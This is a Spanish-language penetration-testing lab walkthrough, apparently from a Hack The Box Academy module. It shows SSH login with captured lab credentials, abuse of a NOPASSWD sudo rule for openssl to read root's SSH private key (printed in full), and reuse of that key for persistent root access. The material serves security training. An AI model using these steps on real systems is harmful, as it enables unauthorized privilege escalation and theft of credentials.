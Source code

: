 Ahora que hemos trabajado tanto para obtener este punto de apoyo, no queremos perderlo. El objetivo es usar este host como un punto de pivote para acceder al resto de la red interna. Nuestra shell todavía es relativamente inestable y no queremos seguir configurando nuestro acceso con múltiples pasos porque queremos ser lo más eficientes posible y pasar el mayor tiempo posible en la evaluación real, no jugando con shells.

---

## Sinking Our Hooks In

Ahora que tenemos credenciales (`srvadm:ILFreightnixadm!`), podemos aprovechar el puerto SSH que vimos abierto antes y conectarnos para una conexión estable. Esto es importante porque queremos poder volver lo más cerca posible al mismo punto al comienzo de cada día de pruebas, para no tener que perder tiempo en la configuración. Ahora bien, no siempre tendremos SSH abierto a Internet y puede que tengamos que lograr persistencia de otra manera. Podríamos crear un binario de reverse shell en el host, ejecutarlo a través de la command injection, obtener una reverse shell o Meterpreter shell, y luego trabajar a través de eso. Dado que SSH está aquí, lo usaremos. Hay muchas formas de pivotar y tunelizar nuestro tráfico, las cuales fueron cubiertas en profundidad en el módulo [Pivoting, Tunneling, and Port Forwarding](https://academy.hackthebox.com/module/details/158), así que vale la pena probar algunas de ellas en esta sección para obtener práctica adicional. Necesitaremos usar algunas de estas a medida que avancemos en esta red. También es bueno tener una forma de respaldo para volver a entrar cuando usamos las credenciales de alguien, ya que pueden darse cuenta de que su cuenta está comprometida o simplemente llega el momento en que se les pide cambiar su contraseña, y no podremos conectarnos al día siguiente. Siempre debemos estar pensando por adelantado, analizando cada ángulo y tratando de anticipar problemas antes de que surjan. Un laboratorio es muy diferente del mundo real, y no hay reinicios ni segundas oportunidades, así que necesitamos trabajar meticulosamente y mantener la conciencia situacional lo mejor posible.

```r
ssh srvadm@10.129.203.111

The authenticity of host '10.129.203.111 (10.129.203.111)' can't be established.
ECDSA key fingerprint is SHA256:3I77Le3AqCEUd+1LBAraYTRTF74wwJZJiYcnwfF5yAs.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.203.111' (ECDSA) to the list of known hosts.
srvadm@10.129.203.111's password: 
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-113-generic x86_64)

* Documentation:  https://help.ubuntu.com
* Management:     https://landscape.canonical.com
* Support:        https://ubuntu.com/advantage

 System information as of Tue 21 Jun 2022 07:30:27 PM UTC

 System load:                      0.31
 Usage of /:                       95.8% of 13.72GB
 Memory usage:                     64%
 Swap usage:                       0%
 Processes:                        458
 Users logged in:                  0
 IPv4 address for br-65c448355ed2: 172.18.0.1
 IPv4 address for docker0:         172.17.0.1
 IPv4 address for ens160:          10.129.203.111
 IPv6 address for ens160:          dead:beef::250:56ff:feb9:d30d
 IPv4 address for ens192:          172.16.8.120

 => / is using 95.8% of 13.72GB

* Super-optimized for small spaces - read how we shrank the memory
  footprint of MicroK8s to make it the smallest full K8s around.

  https://ubuntu.com/blog/microk8s-memory-optimisation

97 updates can be applied immediately.
30 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable


Last login: Wed Jun  1 07:08:59 2022 from 127.0.0.1
$ /bin/bash -i
srvadm@dmz01:~
```

Ahora que tenemos una conexión estable a través de SSH, podemos comenzar a enumerar más.

---

## Local Privilege Escalation

Podríamos subir un script de enumeración al sistema como [LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS), pero siempre intento dos comandos simples después de obtener acceso: `id` para ver si la cuenta comprometida está en algún grupo local privilegiado, y `sudo -l` para ver si la cuenta tiene algún tipo de privilegios `sudo` para ejecutar comandos como otro usuario o como root. A estas alturas, hemos practicado muchas técnicas de escalación de privilegios tanto en los módulos de la Academy como quizás en algunas cajas en la plataforma principal de HTB. Es genial tener estas técnicas en nuestro bolsillo trasero, especialmente si aterrizamos en un sistema muy endurecido. Sin embargo, estamos tratando con administradores humanos, y los humanos cometen errores y también optan por la conveniencia. Más a menudo que no, mi camino para escalar privilegios en una caja Linux durante un pentest no fue algún ataque de wildcard aprovechando tar y un cron job, sino algo simple como `sudo su` sin contraseña para obtener privilegios root o no tener que escalar privilegios porque el servicio que exploté estaba ejecutándose en el contexto de la cuenta root. Todavía es necesario entender y practicar tantas técnicas como sea posible porque, como se ha dicho varias veces, cada entorno es diferente, y queremos tener el kit de herramientas más completo posible a nuestra disposición.

```r
srvadm@dmz01:~$ sudo -l

Matching Defaults entries for srvadm on dmz01:
  env_reset, mail_badpass,
  secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User srvadm may run the following commands on dmz01:
  (ALL) NOPASSWD: /usr/bin/openssl
```

Ejecutando `sudo -l`, vemos que podemos ejecutar el comando `/usr/bin/openssl` como root sin necesidad de contraseña. Como sospechábamos, hay un [GTFOBin](https://gtfobins.github.io/gtfobins/openssl/) para el binario OpenSSL. La entrada muestra varias formas en que esto puede ser aprovechado: para subir y descargar archivos, obtener una reverse shell, y leer y escribir archivos. Probemos esto para ver si podemos obtener la clave privada SSH para el usuario root. Esto es ideal en lugar de simplemente intentar leer el archivo `/etc/shadow` u obtener una reverse shell ya que el archivo de clave privada `ida_rsa` nos permitirá SSH de nuevo en el entorno como usuario root, lo cual es perfecto para configurar nuestros pivotes.

La entrada indica que podemos usar el binario para leer archivos privilegiados de la siguiente manera:

```r
LFILE=file_to_read
openssl enc -in "$LFILE"
```

Probemos esto

```r
srvadm@dmz01:~$ LFILE=/root/.ssh/id_rsa
srvadm@dmz01:~$ sudo /usr/bin/openssl enc -in $LFILE

-----BEGIN OPENSSH PRIVATE KEY-----
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
WNfJbbEPrmQf0AAAALcm9vdEB1YnVudHU=
-----END OPENSSH PRIVATE KEY-----
```

Nota: Si estás trabajando desde el Pwnbox, asegúrate de guardar esta clave privada en tus notas o en un archivo local o tendrás que rehacer todos los pasos para llegar a este punto si decides hacer una pausa por un tiempo.

---

## Establishing Persistence

¡Éxito! Ahora podemos guardar la clave privada en nuestro sistema local, modificar los privilegios y usarla para SSH como root y confirmar privilegios root.

```r
chmod 600 dmz01_key 
ssh -i dmz01_key root@10.129.203.111

Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-113-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue 21 Jun 2022 07:53:00 PM UTC

  System load:                      0.04
  Usage of /:                       97.1% of 13.72GB
  Memory usage:                     65%
  Swap usage:                       0%
  Processes:                        472
  Users logged in:                  1
  IPv4 address for br-65c448355ed2: 172.18.0.1
  IPv4 address for docker0:         172.17.0.1
  IPv4 address for ens160:          10.129.203.111
  IPv6 address for ens160:          dead:beef::250:56ff:feb9:d30d
  IPv4 address for ens192:          172.16.8.120

  => / is using 97.1% of 13.72GB

 * Super-optimized for small spaces - read how we shrank the memory
   footprint of MicroK8s to make it the smallest full K8s around.

   https://ubuntu.com/blog/microk8s-memory-optimisation

97 updates can be applied immediately.
30 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable


You have mail.
Last login: Tue Jun 21 17:50:13 2022
root@dmz01:~# 
```

Funcionó, y estamos dentro y ahora tenemos un "save point" para volver al entorno interno rápidamente y podemos usar este acceso SSH para configurar port forwards y pivotar internamente.